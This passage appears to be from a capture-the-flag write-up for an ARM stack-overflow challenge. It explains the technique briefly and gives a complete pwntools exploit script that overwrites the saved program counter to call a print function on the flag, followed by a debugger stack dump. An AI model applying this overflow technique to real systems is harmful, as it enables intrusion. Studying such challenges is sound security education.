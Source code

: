 ```
pop {r0}
pop {pc}
```

The exploit is rather simple, set the PC down stack a bit, followed by the locations of the flag and the `printline` function, pop them into `r0` and `pc`, and well, that's it really.



## Exploit

```python
#!/usr/bin/env python3

from pwn import *

context.arch = 'arm'

if args.REMOTE:
    p = remote('chals4.umdctf.io', 7000)
else:
    p = remote('localhost', 9001)

p.sendlineafter('exit...','')

payload  = b''
payload += 44 * b'A'
payload += p32(0x10000 + 0x8)   # pc
payload += p32(0x104f0)         # flag
payload += p32(0x101f0)         # printline
payload += asm('pop {r0}; pop {pc};')

p.sendlineafter('Password:',payload)
p.recvuntil('exiting')
print(p.recvuntil('}').decode())
```

Setting a breakpoint at `0x10414` and testing the attack yields:

```
─────────────────────────────────────────────────────────────────────── stack ────
0x0000fffc│+0x0000: 0x00010008  →  0xe49d0004  →  0xe49d0004	 ← $sp
0x00010000│+0x0004: 0x000104f0  →  0x43444d55  →  0x43444d55
0x00010004│+0x0008: 0x000101f0  →  0xe5d03000  →  0xe5d03000
0x00010008│+0x000c: 0xe49d0004  →  0xe49d0004
0x0001000c│+0x0010: 0xe49df004  →  0xe49df004
0x00010010│+0x0014: 0xe3520000  →  0xe3520000
0x00010014│+0x0018: 0x0a000003  →  0x00000000  →  0xe28fe004  →  0xe28fe004
0x00010018│+0x001c: 0xe4810008  →  0xe4810008
──────────────────────────────────────────────────────────────── code:arm:ARM ────
      0x10408                  ldr    r0,  [pc,  #40]	; 0x10438
      0x1040c                  bl     0x101f0
      0x10410                  add    sp,  sp,  #44	; 0x2c
●→    0x10414                  pop    {pc}		; (ldr pc,  [sp],  #4)
      0x10418                  ldr    r0,  [pc,  #28]	; 0x1043c
      0x1041c                  bl     0x101f0
      0x10420                  b      0x10408
      0x10424                  andeq  r0,  r1,  r8,  lsl #10
      0x10428                  andeq  r0,  r1,  r0,  lsr r5
```
